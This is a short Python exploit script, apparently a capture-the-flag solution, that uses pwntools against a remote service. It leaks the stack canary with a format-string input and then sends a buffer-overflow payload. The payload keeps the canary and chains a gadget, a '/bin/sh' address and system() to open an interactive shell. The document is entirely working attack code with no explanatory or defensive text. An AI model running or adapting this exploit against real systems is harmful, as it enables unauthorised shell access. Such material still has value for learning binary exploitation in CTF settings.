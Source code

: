 ```python
context( word_size=64, os='linux')

r = remote(ADDR, PORT)
r.recvuntil('Who is your daddy? ')
r.sendline('%p.'*3 + 'XXXXX')
a = r.recvuntil('XXXXX')
v = a.split('.')
canary = int(v[2], 16)
r.recvuntil('And what does he do? ')

a0_gadget = 0x0004a9cc
system_addr = 0x000153a2
binsh_addr = 0x0004ddc0

payload = 'A'*24 + p64(binsh_addr) + 'A'*8 + p64(system_addr)
r.sendline('A'*256 + p64(canary) + 'B'*8 + p64(a0_gadget) + payload)

r.recv(1024)

r.interactive()
r.close()
```

[back](../)
